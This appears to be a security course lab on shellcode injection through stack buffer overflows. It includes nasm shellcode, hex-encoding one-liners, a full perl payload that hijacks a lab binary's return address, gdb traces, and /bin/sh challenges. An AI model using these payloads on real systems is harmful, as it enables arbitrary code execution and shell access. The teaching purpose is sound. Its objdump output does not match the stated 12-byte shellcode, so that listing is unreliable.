

<details open>
    <summary>Table of contents</summary>
    
   * [Introduction](#introduction)
      * [Stack-buffer-overflow recap](#stack-buffer-overflow-recap)
      * [Code injection](#code-injection)
         * [Develop](#develop)
         * [Inject](#inject)
         * [Trigger](#trigger)
      * ["Shellcodes"](#shellcodes)
   * [Tutorials](#tutorials)
      * [01. Tutorial: generating machine code](#01-tutorial-generating-machine-code)
      * [02. Tutorial: inspecting machine code](#02-tutorial-inspecting-machine-code)
      * [03. Tutorial: feeding machine code to a program](#03-tutorial-feeding-machine-code-to-a-program)
      * [04. Tutorial: "Hello, world!" shellcode](#04-tutorial-hello-world-shellcode)
      * [05. Tutorial: Debugging shellcodes](#05-tutorial-debugging-shellcodes)
   * [Challenges](#challenges)
      * [06. Challenge: /bin/sh shellcode](#06-challenge-binsh-shellcode)
      * [07. Challenge: shellcode on stack](#07-challenge-shellcode-on-stack)
      * [08. Challenge: shellcode after saved ret](#08-challenge-shellcode-after-saved-ret)
      * [09. Challenge: shellcode after saved ret - no leak](#09-challenge-shellcode-after-saved-ret---no-leak)
      * [10. Challenge: shellcode as command line arg](#10-challenge-shellcode-as-command-line-arg)
      * [11. Challenge: shellcode in the environment](#11-challenge-shellcode-in-the-environment)
   * [Further Reading](#further-reading)
   * [Resources](#resources)

</details>

# Introduction

## Stack-buffer-overflow recap

In the last session, we studied what an attacker can do to a program with a stack-buffer-overflow vulnerability: fill up the legitimately reserved space with junk, then overwrite the saved-return value with an address of their choosing. After the vulnerable function's execution ends, its final `ret` will place the attacker's chosen address into the `eip`/`rip` and execution will continue from there.


The above scenario limits the attacker to the functionality already present in the vulnerable program. If an attacker desires to spawn a shell, but no shell-spawning code is already present - tough luck! In this session we will start studying a method of overcoming this limitation: code injection.

## Code injection

If the code we want to execute is not present in the target program, we'll simply add it ourselves! We will implement our desired functionality in machine code, inject (which is just a fancy word for "write") it into the target process' memory, then force execution to jump to the beginning of our code. These steps can be succinctly summarized as: develop, inject, trigger.

### Develop

First, we need to implement our desired functionality. Our goal is to obtain _something_ that can be placed directly into the memory space of a running process and be executed; so it cannot be text representing code in C, Python, Java etc. It must be _machine code_. This might seem a very difficult task, but we'll simply use the tools we usually employ when writing code that we intend to run; in particular, we will rely on the assembler: we write ASM code to do what we want, then assemble it to obtain a string of machine code bytes.

### Inject

Once we have our string of machine code bytes, we need it to be present in the memory space of the target process. This means the program must read some input (with a `gets`, `fgets`, `fscanf`, `read` etc.). However, if we can _launch_ the program, we can also place our code in the environment or inside a command line argument; even if a program doesn't use these, the loader still places them in its address space.

### Trigger

After having placed our code inside the memory space of the target process, we need to force execution to jump at its beginning. We already know how to do this, by means of a stack-buffer-overflow, which we studied in the previous session.

## "Shellcodes"

Usually, the end-goal of an attacker is to force the program to spawn a shell, thus gaining unlimited access. This can be achieved by injecting machine code that triggers an `execve("/bin/sh", ["/bin/sh", NULL], NULL)` system call, hence the name "shellcode". However, this label is also used for any piece of injected code, even if it does not spawn a shell.

# Tutorials

## 01. Tutorial: generating machine code

To address the first step of our code injection technique, we will start with a simple example: we want to force the program to end cleanly with an exit code of 42; more precisely we want to execute an `exit(42)` system call.

```nasm
BITS 64
    mov rdi, 42
    mov rax, 60
    syscall
```

[Linux Syscall Table](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

We can then use `nasm` to obtain a file with machine code:

```
$ nasm exit_shellcode.nasm -o exit_shellcode.bin
```

**NOTE:** `exit_shellcode.bin` is not an ELF:

```
$ file exit_shellcode.bin
exit_shellcode.bin: data
```

It is not an executable file at all, but simply contains a raw string of machine code bytes. You can see that it is very, very small:

```
$ wc --bytes exit_shellcode.bin
12 exit_shellcode.bin
```

## 02. Tutorial: inspecting machine code

We would also like to be able to do the reverse of this: given a file that contains a raw string of machine bode bytes, translate it back into readable assembly. This is useful to check that our assembly process was correct, as well as for analyzing files that we did not create.

In [the first session](../exploration-tools), we learned to disassemble using `objdump`. By default, `objdump` expects a proper `ELF` executable and complains about our raw file:

```
$ objdump -d -M intel exit_shellcode.bin
objdump: exit_shellcode.bin: file format not recognized
```

We need to use the following command:

```
$ objdump -D -b binary -m i386:x86-64 -M intel exit_shellcode.bin

test.bin:     file format binary


Disassembly of section .data:

0000000000000000 <.data>:
   0:   48 c7 c0 ff ff ff ff    mov    rax,0xffffffffffffffff
   7:   bf 2a 00 00 00          mov    edi,0x2a
   c:   b8 3c 00 00 00          mov    eax,0x3c
  11:   0f 05                   syscall
```

* `-D`: disassemble all, not only text/code zones. In our case this means disassemble the whole file.
* `-b binary`: treat the file as not having a specific object/executable format (such as ELF, COFF, Mach-O or PE).
* `-m i386:86-64`: the machine code inside the binary file is i386 (x86), 64 bits (usually, `objdump` gets this information from the ELF header).
* `-M intel`: display ASM using Intel assembly syntax, as opposed to AT&T assembly syntax.

We can also use a tool like `xxd` or `hexdump` to inspect the byte values in the file, without dissasembling:

```
$ xxd exit_shellcode.bin
00000000: 48c7 c0ff ffff ffbf 2a00 0000 b83c 0000  H.......*....<..
00000010: 000f 05                                  ...
```

## 03. Tutorial: feeding machine code to a program

Now that we know how to obtain a bytestring of machine code from an assembly program, it's time to move on to the next step: injection. The simplest way is to redirect the `stdin` of the target program to the file containing our raw machine code.

```
$ ./vuln < exit_shellcode.bin
```

However, we might want to freely edit the payload directly on the command line (for example, if the program reads some other stuff). The way to do this is to use another tool, like the shell itself, to transform hexdecimal notation into binary data:

```
$ printf '\x4b\x80\x04\x08'
K�
```

Again, we can use a tool like `xxd` for the reverse operation, to verify that the binary data comes out as intended:

```
$ printf '\x4b\x80\x04\x08' | xxd -p
4b800408
```

If our machine code is contained in a file, we can use `hexdump` to obtain an escaped hexadecimal representation of its contents:

```
$ hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin
\x48\xc7\xc0\xff\xff\xff\xff\xbf\x2a\x00\x00\x00\xb8\x3c\x00\x00\x00\x0f\x05
```

Which we can then combine with some other input

```
$ printf '1\x48\xc7\xc0\xff\xff\xff\xff\xbf\x2a\x00\x00\x00\xb8\x3c\x00\x00\x00\x0f\x05' | ./vuln2
```

Or we can do this directly:

```
$ printf '1'$(hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin) | ./vuln2
```

We can then verify that the program did indeed exit with code 42:

```
$ echo $?
42
```

## 04. Tutorial: "Hello, world!" shellcode

Our aim now is to develop a shellcode that prints `"Hello, world!\n"` to stdout, then inject it into `vuln` and trigger its execution.

We start by writing a shellcode that does a `write(1, "Hello, world!\n", 14)` system call, by writing the string on to the stack such that the stack pointer points to the beginning of the string.

```nasm
; Write "Hello, world!\n" to the standard output.
BITS 64
    ; We can't push 64 bit constants, but we can push 64 bit registers.
    mov rbx, `orld!\n`
    push rbx
    mov rbx, `Hello, w`
    push rbx
    mov rsi, rsp
    mov rdx, 14
    mov rdi, 1
    mov rax, 1
    syscall
```

This is just one way to do it and there are other possible approaches to it.

We then assemble our snippet to get a string of machine code bytes (the `Makefile` provided already does this).

```
$ nasm hello_shellcode.nasm -o hello_shellcode.bin
```

Our vulnerable program first reads 128 bytes into a global buffer (line 8):
```c
read(0, machine_code, 128);
```

Our shellcode-injecting payload needs to consist of the shellcode itself and some junk to pad the payload length to 128. First, we need to determine the shellcode size in bytes, then we use a tool like python to generate the string:

```
$ wc -c hello_shellcode.bin
42 hello_shellcode.bin

$ perl -e "print \"$(hexdump -v -e '"\\" 1/1 "x%02x"' ./hello_shellcode.bin)\" . \"A\" x (128 - 42)"
```

We then move on to the second part of our exploit, in which we hijack control flow by exploiting a stack-buffer-overflow in which 128 bytes are read into a 16 byte buffer.

```c
char buf[16];
...
read(0, buf, 128);
```

All we need to do is to pad the legitimately reserved space until the saved return address, then overwrite it with the address of `machine_code`. Thus we will probably need 16 + 8 (the saved `rbp`) bytes of padding, but remember that we can't rely on the layout we see in C and must inspect the binary:

```
$ objdump -d -M intel ./vuln
...
0000000000401126 <main>:
  401126:       55                      push   rbp
  401127:       48 89 e5                mov    rbp,rsp
  40112a:       48 83 ec 10             sub    rsp,0x10    <---- Here we see that there are, indeed, just 16 bytes reserved on this stack frame
...
```

We then determine the address of the global buffer which holds our code and craft our second payload (remember to reverse the bytes because our systems are little endian):

```
$ nm ./vuln | grep machine_code
0000000000404060 T machine_code

$ perl -e 'print "A" x (16 + 8) . "\x60\x40\x40\x00\x00\x00\x00\x00"'
```

Now all we need to do is concatenate our two payloads:

```
$ perl -e "print \"$(hexdump -v -e '"\\" 1/1 "x%02x"' ./hello_shellcode.bin)\" . \"A\" x (128 - 42) . \"A\" x (16 + 8) . \"\x60\x40\x40\x00\x00\x00\x00\x00\"" | ./vuln
Hello, world!
[1]    53760 done                              perl -e  |
       53762 segmentation fault (core dumped)  ./vuln
```

As you can see, even with simple exploits, payloads quickly become unwieldy. Our advice is to make use of a script in a language like python. There is one such script example in the task directory.

Even though we succeeded in printing our message, the program then ended abruptly with a _Segmentation fault_. Pause for a second to figure out why that is.

<details> 
  <summary>Answer here</summary>

  Because we hijacked normal control flow, the program does not reach the end of the `main` function to terminate gracefully, but instead continues to attempt to execute instructions from the `machine_code` global var. We can help the program exit gracefully by extending our shellcode to also perform an `exit(0)` syscall after the `write`. Remember to check the size of the new shellcode and update the padding accordingly!

</details>

## 05. Tutorial: Debugging shellcodes

How can we **know** that our shellcode worked properly? Sometimes its external effects are not immediately visible; if it involves any system calls, we can make use of `strace`:

```
$ printf '1'$(hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin) | strace ./vuln2
execve("./vuln2", ["./vuln2"], 0x7ffdb027a9d0 /* 77 vars */) = 0
....
exit(42)                                = ?
+++ exited with 42 +++
```

A more productive approach is to use `gdb` to inspect the execution of the shellcode step by step. Load the program, break on the shellcode address, feed it the input and run:

<details>
    <summary>GDB output</summary>
    
```
$ gdb ./vuln
Reading symbols from ./vuln...
gdb-peda$ b *main+56
Breakpoint 1 at 0x40115e: file vuln.c, line 11.
gdb-peda$ r < payload
Starting program: /home/mihai/gits/sss-exploit-internal/sessions/07-shellcodes/activities/04-tutorial-hello-world-shellcode/src/vuln < payload
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x401160 (<__libc_csu_init>:       endbr64)
RCX: 0x7ffff7eb6052 (<read+18>: cmp    rax,0xfffffffffffff000)
RDX: 0x80
RSI: 0x7fffffffd370 ('A' <repeats 24 times>, "`@@")
RDI: 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffd388 --> 0x404060 --> 0xa21646c726fbb48
RIP: 0x40115e (<main+56>:       ret)
R8 : 0x0
R9 : 0x7ffff7fdc070 (<_dl_fini>:        endbr64)
R10: 0xfffffffffffff4ac
R11: 0x246
R12: 0x401040 (<_start>:        endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401153 <main+45>:  call   0x401030 <read@plt>
   0x401158 <main+50>:  mov    eax,0x0
   0x40115d <main+55>:  leave
=> 0x40115e <main+56>:  ret
   0x40115f:    nop
   0x401160 <__libc_csu_init>:  endbr64
   0x401164 <__libc_csu_init+4>:        push   r15
   0x401166 <__libc_csu_init+6>:        lea    r15,[rip+0x2c93]        # 0x403e00
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd388 --> 0x404060 --> 0xa21646c726fbb48
0008| 0x7fffffffd390 --> 0x7fffffffd40a --> 0xd478000000000000
0016| 0x7fffffffd398 --> 0x1f7fca000
0024| 0x7fffffffd3a0 --> 0x401126 (<main>:      push   rbp)
0032| 0x7fffffffd3a8 --> 0x7fffffffd859 --> 0x54bcc0a1225a8900
0040| 0x7fffffffd3b0 --> 0x401160 (<__libc_csu_init>:   endbr64)
0048| 0x7fffffffd3b8 --> 0x352575cde5bb22d8
0056| 0x7fffffffd3c0 --> 0x401040 (<_start>:    endbr64)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000000000040115e in main () at vuln.c:11
11      }
gdb-peda$ si
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x401160 (<__libc_csu_init>:       endbr64)
RCX: 0x7ffff7eb6052 (<read+18>: cmp    rax,0xfffffffffffff000)
RDX: 0x80
RSI: 0x7fffffffd370 ('A' <repeats 24 times>, "`@@")
RDI: 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffd390 --> 0x7fffffffd40a --> 0xd478000000000000
RIP: 0x404060 --> 0xa21646c726fbb48
R8 : 0x0
R9 : 0x7ffff7fdc070 (<_dl_fini>:        endbr64)
R10: 0xfffffffffffff4ac
R11: 0x246
R12: 0x401040 (<_start>:        endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40405a:    add    BYTE PTR [rax],al
   0x40405c:    add    BYTE PTR [rax],al
   0x40405e:    add    BYTE PTR [rax],al
=> 0x404060 <machine_code>:     movabs rbx,0xa21646c726f
   0x40406a <machine_code+10>:  push   rbx
   0x40406b <machine_code+11>:  movabs rbx,0x77202c6f6c6c6548
   0x404075 <machine_code+21>:  push   rbx
   0x404076 <machine_code+22>:  mov    rsi,rsp
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd390 --> 0x7fffffffd40a --> 0xd478000000000000
0008| 0x7fffffffd398 --> 0x1f7fca000
0016| 0x7fffffffd3a0 --> 0x401126 (<main>:      push   rbp)
0024| 0x7fffffffd3a8 --> 0x7fffffffd859 --> 0x54bcc0a1225a8900
0032| 0x7fffffffd3b0 --> 0x401160 (<__libc_csu_init>:   endbr64)
0040| 0x7fffffffd3b8 --> 0x352575cde5bb22d8
0048| 0x7fffffffd3c0 --> 0x401040 (<_start>:    endbr64)
0056| 0x7fffffffd3c8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000404060 in machine_code ()
gdb-peda$

```
</details>

# Challenges

## 06. Challenge: /bin/sh shellcode

You are given a piece of assembly code that attempts to spawn a shell with the aid of the `execve` syscall. However, the given code is buggy and it will not work. Your task is to figure out what's wrong with it and fix it.

## 07. Challenge: shellcode on stack

Up until now we have injected code into some memory area, then used a stack-buffer-overflow vulnerability to overwrite a saved return address and hijack control flow. If we think about it, the legitimately reserved buffer space on the stack _is_ a memory area and we could perform our attack using a single read: the overflowing one.

So our payload will consist of the bytes in our shellcode, then some junk to pad the rest of the space to the saved return, then the address of the buffer itself:


    
Now that our shellcode is written on the stack, things become a little harder. Due to several factors (such as the fact that environment variables and command line arguments are placed by the loader on the stack), it is difficult to predict the address at which any value will be placed on the stack. For now, the binary will generously print it for us.

You can observe the volatility of the stack by changing how you launch the program (rember that the path of the binary is considered a command line argument, namely `argv[0]` so it too gets placed on the stack, thus things change depending on what exact relative or absolute path we use):

```
$ ./vuln
0x7fffffffd5d0
$ ../07-challenge-shellcode-on-stack/vuln
0x7fffffffd550
$ ./vuln asdf
0x7fffffffd5c0
$ ./vuln asdfqwer
0x7fffffffd5c0
$ ./vuln asdfqwerasdfqwer
0x7fffffffd5b0
$ ./vuln asdf qwer
0x7fffffffd5b0
$ FOO=bar ./vuln
0x7fffffffd5c0
```

## 08. Challenge: shellcode after saved ret

In the previous challenge, we placed our shellcode on the stack, in the space between the overflown buffer's beginning and the saved return address. However, we could switch things up and place the shellcode in the area _after_ the saved return address. This might be useful when the stack buffer is too short to hold our payload.

So our payload will consist of padding junk from the beginning of the buffer to the saved return, the address of the next stack portion, then the bytes of our shellcode.



To recap: given a stack-buffer-overflow vulnerability we can not only hijack control flow, but also place a shellcode on the stack using the buggy read. There are two regions where we can do this:

* between the buffer start and the saved return. The number of bytes we can write here is determined by _how much space was allocated on the stack_.
* after the saved return. The number of bytes we can write here is determined by _how many bytes are read_.

If any of these regions is too small, we can try the other one. If both of them are too small, that's a problem. However, note that shellcodes are usually tiny.

## 09. Challenge: shellcode after saved ret - no leak

This is the same as the previous challenge, only this time the executable does not conveniently leak the buffer's address. So you will have to deal with the differences between running a binary inside and outside of `gdb` to precisely determine the necessary address, then jump to it.

## 10. Challenge: shellcode as command line arg

As mentioned in the introduction, reading from stdin or from a file isn't the only way to place content inside the memory space of a process. If we can launch the executable, we can modify its environment or command line arguments. The fact that a program might not use its arguments or environment is irrelevant, the loader can't know this, so it places them in the address space anyway.

Take the `/bin/sh` shellcode and feed it to the program as a command-line argument, then exploit the SBO to actually run it.

## 11. Challenge: shellcode in the environment

Take the `/bin/sh` shellcode and place it in the environment, then exploit the SBO to actually run it.

# Further Reading

["Smashing The Stack For Fun And Profit", Aleph One](http://phrack.org/issues/49/14.html) - a legendary attack paper documenting SBOs and shellcodes. As it is written in '96, the examples in it will probably _not_ work (either out-of-the-box or with some tweaks). We recommend perusing it for its historical/cultural significance, but don't waste much time on the technical details of the examples.

# Resources

[Shell-storm](http://shell-storm.org/shellcode/) - a repository of shellcodes.
